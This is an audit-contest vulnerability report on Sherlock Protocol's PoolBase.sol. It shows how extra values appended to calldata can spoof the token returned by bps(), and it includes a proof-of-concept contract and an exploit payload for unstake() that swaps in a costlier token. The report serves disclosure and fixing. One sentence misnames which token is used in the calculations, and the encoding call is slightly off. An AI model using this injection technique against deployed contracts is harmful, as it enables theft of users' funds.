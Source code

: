 ## Tags

- bug
- 3 (High Risk)
- sponsor confirmed

# [[Bug] A critical bug in bps function](https://github.com/code-423n4/2021-07-sherlock-findings/issues/90) 

# Handle

hrkrshnn


# Vulnerability details

## A critical bug in bps function: PoolBase.sol

``` solidity
function bps() internal pure returns (IERC20 rt) {
  // These fields are not accessible from assembly
  bytes memory array = msg.data;
  uint256 index = msg.data.length;

  // solhint-disable-next-line no-inline-assembly
  assembly {
    // Load the 32 bytes word from memory with the address on the lower 20 bytes, and mask those.
    rt := and(mload(add(array, index)), 0xffffffffffffffffffffffffffffffffffffffff)
  }
}
```

The above function is designed to expect the token at the end of
`calldata`, but a malicious user can inject extra values at the end of
`calldata` and fake return values.

The following contract demonstrates an example:

``` solidity
pragma solidity 0.8.6;

interface IERC20 {}

error StaticCallFailed();

contract BadEncoding {
    /// Will return address(1). But address(0) is expected!
    function f() external view returns (address) {
        address actual = address(0);
        address injected = address(1);

        (bool success, bytes memory ret) = address(this).staticcall(abi.encodeWithSelector(this.g.selector, actual, injected));

        if (!success) revert StaticCallFailed();

        return abi.decode(ret, (address));
    }
    function g(IERC20 _token) external pure returns (IERC20) {
        // to get rid of the unused warning
        _token;
        // Does it always match _token?
        return bps();
    }
    // From Sherlock Protocol: PoolBase.sol
    function bps() internal pure returns (IERC20 rt) {
        // These fields are not accessible from assembly
        bytes memory array = msg.data;
        uint256 index = msg.data.length;

        // solhint-disable-next-line no-inline-assembly
        assembly {
            // Load the 32 bytes word from memory with the address on the lower 20 bytes, and mask those.
            rt := and(mload(add(array, index)), 0xffffffffffffffffffffffffffffffffffffffff)
        }
    }
}
```

### An example exploit

This can be used to exploit the protocol:

``` solidity
function unstake(
  uint256 _id,
  address _receiver,
  IERC20 _token
) external override returns (uint256 amount) {
  PoolStorage.Base storage ps = baseData();
  require(_receiver != address(0), 'RECEIVER');
  GovStorage.Base storage gs = GovStorage.gs();
  PoolStorage.UnstakeEntry memory withdraw = ps.unstakeEntries[msg.sender][_id];
  require(withdraw.blockInitiated != 0, 'WITHDRAW_NOT_ACTIVE');
  // period is including
  require(withdraw.blockInitiated + gs.unstakeCooldown < uint40(block.number), 'COOLDOWN_ACTIVE');
  require(
    withdraw.blockInitiated + gs.unstakeCooldown + gs.unstakeWindow >= uint40(block.number),
    'UNSTAKE_WINDOW_EXPIRED'
  );
  amount = withdraw.lock.mul(LibPool.stakeBalance(ps)).div(ps.lockToken.totalSupply());

  ps.stakeBalance = ps.stakeBalance.sub(amount);
  delete ps.unstakeEntries[msg.sender][_id];
  ps.lockToken.burn(address(this), withdraw.lock);
  _token.safeTransfer(_receiver, amount);
}
```

State token `Token1`. Let's say there is a more expensive token
`Token2`.

Here's an example exploit:

``` solidity
bytes memory exploitPayload = abi.encodeWithSignature(
    PoolBase.unstake.selector,
    (uint256(_id), address(_receiver), address(Token2), address(Token1))
);
poolAddress.call(exploitPayload);
```

All the calculations on `ps` would be done on `Token2`, but at the end,
because of, `_token.safeTransfer(_receiver, amount);`, `Token2` would be
transferred. Assuming that `Token2` is more expensive than `Token1`, the
attacker makes a profit.

Similarly, the same technique can be used at a lot of other places. Even
if this exploit is not profitable, the fact that the computations can be
done on two different tokens is buggy.

There are several other places where the same pattern is used. All of
them needs to be fixed. I've not written an exhaustive list.


